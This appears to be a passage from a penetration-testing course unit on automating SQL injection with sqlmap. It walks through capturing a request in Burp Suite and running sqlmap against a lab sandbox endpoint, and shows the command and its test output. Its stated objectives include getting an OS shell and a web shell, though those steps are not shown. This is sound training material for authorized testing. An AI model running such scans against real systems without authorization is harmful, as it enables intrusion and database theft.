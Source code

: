 This Learning Unit covers the following Learning Objectives:

1. Understand how to use sqlmap to identify SQL injection vulnerabilities
2. Understand how to use sqlmap to obtain a basic OS shell
3. Understand how to use sqlmap to create a web shell

The SQL injection processes we have discussed can be automated with the help of several tools pre-installed in Kali Linux. One of the more notable tools is _sqlmap_,[1](https://portal.offsec.com/courses/web-200-28380/learning/sql-injection-30958/exploiting-sql-injection-31322/extra-miles-31050#fn-local_id_281-1) which can identify and exploit SQL injection vulnerabilities against various database engines.

(Bernardo Damele A.G. and Miroslav Stampar, 2021), [https://sqlmap.org/](https://sqlmap.org/) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/sql-injection-30958/database-dumping-with-automated-tools-31321/database-dumping-with-automated-tools-31463#fnref-local_id_281-1)

------------

#### 8.4.1 SQLMap

Let’s use sqlmap on our sample web application. We could use sqlmap as a fully automated tool to crawl a site, but as penetration testers it is often more useful to manually explore a target before running another automated tool against it. While we could use any of the pages in our SQL Sandbox application, we'll focus on `http://sql-sandbox/sqlmap/`. With Burp Suite running, let's visit the page with the embedded Chromium browser.

We'll click _Submit Query_ to load some results in the page.

Search results on /sqlmap
![[Pasted image 20240822153833.png]]
Let's switch to Burp Suite, click on _Proxy_ > _HTTP history_, and review the requests and responses.

Baseline request and response that we will provide to sqlmap
![[Pasted image 20240822153905.png]]
Since the response from /sqlmap/api seems to include data from a database, we'll provide the request to sqlmap as our starting point.

Let's run sqlmap. We will set the URL we want to scan with `-u`, set `--method POST` to send a POST request, use `--data` for the POST body, and specify the parameters to test with -p followed by a comma-separated list. We will exclude the _db_ parameter since the application uses it to determine which database to use. We will also update the POST body to make sure the _name_ parameter isn't empty.

```bash
kali@kali:~$ sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=mysql&name=taco&sort=id&order=asc" -p "name,sort,order"
...
[15:00:23] [INFO] testing 'Generic inline queries'
[15:00:23] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[15:00:23] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[15:00:23] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[15:00:23] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[15:00:23] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[15:00:23] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[15:00:23] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n]
```
